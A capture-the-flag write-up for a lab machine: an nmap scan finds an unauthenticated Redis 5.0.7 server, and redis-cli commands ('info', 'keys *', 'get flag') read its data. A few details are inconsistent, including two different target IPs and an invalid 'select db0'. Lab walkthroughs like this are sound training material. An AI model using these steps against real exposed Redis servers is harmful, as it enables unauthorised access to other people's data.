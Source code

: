 #veryeasy 
#redis

Firstly, we start by opening a VPN connection and launching the VM on HTB.

**Reconnaissance**
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there is one open port,  port 6379 running redis service in the version 5.07.

```
Nmap scan report for 10.129.56.92
Host is up (0.045s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

**Redis Protocol**
Since we found redis running in a open port, we try to connect to it using the `redis-cli -h $TARGET` command. We enter the target host's IP address. Once we are in the redis terminal we can run `info` to retrieve various information about the Redis instance, including its version, uptime, memory usage, and configuration file path. The output shows that the Redis instance is running version 5.0.7, has been running for 730 seconds (or approximately 12 minutes), uses 859624 bytes of memory (with a peak usage of 859624 bytes), and has a configuration file located at `/etc/redis/redis.conf`. Also it shows that there is a keyspace on index 0 which contains 4 keys.

```
10.129.56.92:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.3.0
process_id:746
run_id:ec1866fe33993dbe667d3c17a610f606e35dcfec
tcp_port:6379
uptime_in_seconds:730
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:5630188
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:1
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:859624
used_memory_human:839.48K
used_memory_rss:5947392
used_memory_rss_human:5.67M
used_memory_peak:859624
used_memory_peak_human:839.48K
used_memory_peak_perc:100.00%
used_memory_overhead:846142
used_memory_startup:796224
used_memory_dataset:13482
used_memory_dataset_perc:21.26%
allocator_allocated:1613720
allocator_active:1949696
allocator_resident:9158656
total_system_memory:2084024320
total_system_memory_human:1.94G
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.21
allocator_frag_bytes:335976
allocator_rss_ratio:4.70
allocator_rss_bytes:7208960
rss_overhead_ratio:0.65
rss_overhead_bytes:-3211264
mem_fragmentation_ratio:7.27
mem_fragmentation_bytes:5129776
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:49694
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:4
rdb_bgsave_in_progress:0
rdb_last_save_time:1700128274
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:6
total_commands_processed:7
instantaneous_ops_per_sec:0
total_net_input_bytes:320
total_net_output_bytes:14861
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:4de0796cde5d7a5a2b38afdb4ae1438e3b61a0f4
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.497178
used_cpu_user:0.436640
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0

```
Now that we know that there is a keyspace called `db0` we can get the keys and values that it contains but first we need to select it, to do this we run `select db0`.
Once selected we can get all the keys by running `keys *` command. The output shows that there are four keys in the database: "temp", "numb", "flag", and "stor".
`
```
10.129.56.92:6379> keys *
1) "temp"
2) "numb"
3) "flag"
4) "stor"
```

Finally, we can run the `get flag` command to retrieve the value of the "flag" key, which returns the flag value that we need.